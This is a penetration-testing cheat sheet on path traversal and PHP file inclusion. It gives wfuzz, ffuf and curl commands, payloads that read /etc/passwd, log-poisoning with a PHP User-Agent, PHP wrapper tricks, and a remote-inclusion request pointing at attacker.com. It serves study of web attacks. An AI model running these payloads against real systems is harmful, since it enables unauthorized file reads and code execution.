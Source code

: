 # Traversal/File Inclusion

## Things to remember
  *  Traversal allows for arbitrary file read
  *  File inclusion uses the backend language to execute arbitrary code
      *  Syntax for LFI/RFI will depend on the backend language
      *  As always, enumerate the web stack thoroughly
  *  Most examples of file inclusion are PHP applications
  *  PayloadsAllTheThings has a page covering various [bypass and RCE techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md)

## Useful tools
  *  [`wfuzz`](https://www.kali.org/tools/wfuzz/) and and [`ffuf`](https://github.com/ffuf/ffuf) for manually fuzzing web app inputs for traversal/inclusion
  *  [`seclists`](https://github.com/danielmiessler/SecLists) for traversal/inclusion fuzzing lists
  *  [`curl`](https://curl.se/) for traversal/inclusion one-liners

## Fuzzing for traversal/file inclusion
  *  `wfuzz` for traversal/file inclusion fuzzing
      *  Fuzz more than just parameters! Cookies, headers, etc.
  *  Carefully parse HTTP POST requests before using `wfuzz`
      *  Be specific with things like cookies, headers, URL structure, etc.
      *  Failing to provide these values can produce ineffective requests
  *  `ffuf` can parse requests from text files
      *  Easier handling of more complex POST requests
      *  No recursive grep, consider `Burp Intruder` in these cases

```
wfuzz -w /path/to/traversal.txt -b 'exampleCookie=cookieValue' 'http://10.0.0.1/traversal?param=FUZZ'
wfuzz -w /path/to/inclusion.txt -H 'exampleHeader: headerValue' -d 'param=FUZZ' 'http://10.0.0.1/inclusion'
```

```
ffuf -request req.txt --request-proto http -w /path/to/inclusion.txt -v
```

## Exploiting path traversal
  *  Consider targeting world-readable files to confirm traversal
      *  `apparmor`, blacklists, etc. interfere with these tests
  *  Path traversal provides arbitrary file read
      *  Gather internal info such as OS/kernel version, network config, users, etc.
      *  Configuration and source code files can be juicy

```
/etc/passwd
C:\windows\system32\drivers\etc\hosts
C:/windows/system32/drivers/etc/hosts
```

```
curl -b 'exampleCookie=cookieValue' 'http://10.0.0.1/traversal?page=/etc/passwd'
curl -k -X 'POST' -H 'exampleHeader: headerValue' -d 'page=/etc/passwd' 'https://10.0.0.1/traversal'
```

## Exploiting file inclusion
  *  File inclusion provides arbitrary code execution AND file read
      *  Enumerate web stack and research backend language for syntax
  *  Any means of modifying filesystem contents could escalate to RCE
      *  Log files are easily modified by interacting with the web service
      *  Research OS/web server version for potential log file locations
      *  Double quotes (`"`) may be automatically escaped in log files causing syntax errors
  *  Remote file inclusion coerces the backend to fetch code from a remote source

```
curl -A '<?php phpinfo(); ?>' 'http://10.0.0.1'
curl -b 'exampleCookie=cookieValue' 'http://10.0.0.1/inclusion?page=/var/log/apache2/access.log'
curl -k -X 'POST' -H 'exampleHeader: headerValue' -d 'page=http://attacker.com/rfi.php' 'https://10.0.0.1/remoteinclusion'
```

## PHP specific techniques
  *  PHP version `5.3 and lower` [terminates strings at any null byte](https://www.php.net/manual/en/security.filesystem.nullbytes.php)
      *  `%00` can be used to truncate the end of any supplied string
  *  [PHP wrappers](https://www.php.net/manual/en/wrappers.php) can be leveraged to make file inclusion easier
      *  [`base64-encode`](https://www.php.net/manual/en/filters.convert.php) and [`data`](https://www.php.net/manual/en/wrappers.data.php) wrappers are particularly useful
      *  More wrappers covered in [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md) and [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

```
php://filter/convert.base64-encode/resource=example.php
data:text/plain,<?php phpinfo(); ?>
```
